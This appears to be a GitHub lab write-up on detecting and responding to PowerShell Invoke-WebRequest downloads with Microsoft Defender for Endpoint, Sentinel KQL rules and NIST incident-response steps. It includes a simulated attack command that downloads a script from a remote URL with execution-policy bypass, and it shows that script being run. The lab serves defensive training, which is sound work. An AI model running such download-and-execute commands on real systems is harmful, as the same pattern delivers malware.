

# 🧪 Threat Detection & Incident Response Lab: PowerShell Suspicious Web Request via Invoke-WebRequest

This lab walks through the full lifecycle of a post-exploitation detection scenario where PowerShell is used to download a script from a remote location using `Invoke-WebRequest`. It demonstrates how to detect, investigate, and respond to such activity using Microsoft Defender for Endpoint (MDE), Microsoft Sentinel, and the NIST 800-61 Incident Response framework.

---

## 🎯 Objective

- Detect malicious or suspicious use of PowerShell for remote file download  
- Simulate the event on an MDE-onboarded system  
- Configure a detection rule in Microsoft Sentinel  
- Investigate the alert and associated artifacts  
- Execute containment, remediation, and post-incident actions  

---

## 1. 🧰 Preparation (NIST IR Step 1)

Attackers frequently use legitimate system tools like PowerShell to carry out malicious activity once they have access to a host. A common tactic is to download scripts or binaries using commands such as `Invoke-WebRequest`, which blends in with normal administrative behavior. This is part of a broader technique known as **Living Off the Land Binaries (LOLBins)**, where attackers exploit built-in tools to avoid detection.

In this lab, we simulate such activity using a script named `eicar.ps1`—named after the harmless EICAR test file—to safely emulate malicious behavior. The activity will be detected using Microsoft Defender for Endpoint, which forwards telemetry to a Log Analytics workspace. Microsoft Sentinel consumes this data, allowing us to write detection rules and respond to suspicious activity through a centralized SIEM interface.

---

## 2. 🔎 Detection and Analysis (NIST IR Step 2)

### 🛠️ Create Detection Logic using Log Analytics (Azure)

We begin by crafting a **Kusto Query Language (KQL)** query to detect any execution of PowerShell or pwsh.exe that uses the `Invoke-WebRequest` command. This query will be validated in Log Analytics, then converted into a scheduled Sentinel analytics rule.

#### 🔍 KQL Detection Query

```kusto
DeviceProcessEvents
| where DeviceName =~ "PVR-HUNTING2"
| where FileName in~ ("powershell.exe", "pwsh.exe")
| where ProcessCommandLine has "Invoke-WebRequest"
| project
    Timestamp,
    DeviceName,
    InitiatingProcessAccountName,
    FileName,
    ProcessCommandLine,
    InitiatingProcessCommandLine,
    ReportId,
    DeviceId
```

<br><br>

---


This query filters events from PowerShell commands that reference `Invoke-WebRequest`, projecting relevant metadata that helps us identify the source system, user, and exact command executed.

---

### ⚙️ Create the Scheduled Analytics Rule

**Analytics Rule Settings**:
- **Name**: PowerShell Suspicious Web Request  
- **Description**: Detects PowerShell usage of `Invoke-WebRequest` to download external content.  
- **Enable Rule**: ✅  
- **Schedule**: Run every 4 hours, look back over the last 24 hours  
- **Stop running query after alert?** ✅  
- **Entity Mapping**:
  - `Account`: Identifier = `AccountName`  
  - `Host`: Identifier = `DeviceName`  
  - `Process`: Identifier = `ProcessCommandLine`  
- **Incident Creation**: Automatically create incident on trigger  
- **Alert Grouping**: Group into a single incident every 24 hours  

**MITRE ATT&CK Categories**:
- **T1059.001** – PowerShell  
- **T1105** – Ingress Tool Transfer  


---

### 💣 Simulate Attack — Triggering the Alert

Execute the following PowerShell command on the onboarded VM (`PVR-HUNTING2`) to simulate the attack:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1
```


---

## 3. 🚨 Containment, Eradication, and Recovery (NIST IR Step 3)

### 🕵️ Investigate the Incident

Once triggered, the alert appears in Microsoft Sentinel under **Incidents**. Begin your investigation:

1. Assign the incident to yourself and mark it as Active.  
2. Review the incident details to identify affected devices, users, and commands.


**Simulated User Behavior**:  
Upon contacting the (simulated) user, they report attempting to install free software, possibly triggering the download of the script.

**Entity Mapping Observed**:
- PowerShell Suspicious Web Request was triggered on **1 device** by **1 user**.  
- The PowerShell command downloaded the following script:  
  - URL: https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1

---

### 🧪 Confirm Script Execution

To confirm whether the downloaded script was executed, run this query:

```kusto
let TargetHostname = "pvr-hunting2";
let ScriptNames = dynamic(["eicar.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
| order by TimeGenerated
```


✅ The logs confirm that `eicar.ps1` was executed.

---

### 🧬 Technical Analysis of Script

**eicar.ps1 Behavior**:

```powershell
# Logs events and creates an EICAR test file at C:\ProgramData\EICAR.txt
# Emulates benign but suspicious behavior typical of malware delivery scripts
```

**Reverse Engineering Team Summary**:  
> The PowerShell command (`powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\eicar.ps1`) strongly resembles malicious script deployment tactics. The script uses execution policy bypass and stores files in `C:\ProgramData`, aligning with known LOLBins abuse patterns. While this script only creates the EICAR string, such methods are frequently used in actual malware delivery and warrant investigation.

---

### 🛡️ Containment Actions

1. **Machine Isolation**  
   - The affected machine was isolated via Defender for Endpoint to prevent lateral movement.  

2. **Antivirus Scan**  
   - A full scan returned clean. No additional compromise detected.  
   - Isolation was lifted without requiring reimaging.  

---

## 4. 📋 Post-Incident Activity (NIST IR Step 4)

### 📚 Remediation and Awareness

1. **Security Policy Hardening**  
   - Began implementing policies to restrict PowerShell usage to approved accounts only.  

2. **User Awareness**  
   - Simulated user underwent cybersecurity refresher training.  

3. **Tooling & Training Enhancements**  
   - Upgraded KnowBe4 phishing and behavior awareness training modules.  
   - Increased training frequency.  

---

## ✅ Closure

- The incident was thoroughly investigated and documented.  
- Labeled as a **True Positive**, but no malicious impact occurred due to simulation control.  
- Final report saved and incident closed in Sentinel.  

---

*This lab demonstrates how to proactively detect and respond to suspicious PowerShell activity using Microsoft Sentinel and MDE, reinforcing fundamental threat hunting and incident response skills.*
